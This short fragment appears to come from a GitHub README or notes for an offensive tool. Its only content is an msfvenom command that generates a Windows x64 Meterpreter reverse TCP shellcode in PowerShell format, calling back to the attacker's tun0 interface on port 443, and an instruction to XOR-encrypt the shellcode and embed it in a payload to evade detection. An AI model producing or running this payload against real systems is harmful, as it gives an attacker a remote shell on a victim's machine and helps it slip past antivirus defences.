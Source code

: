 ```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```
Then, ecnrypt with Xor and implement in payload.
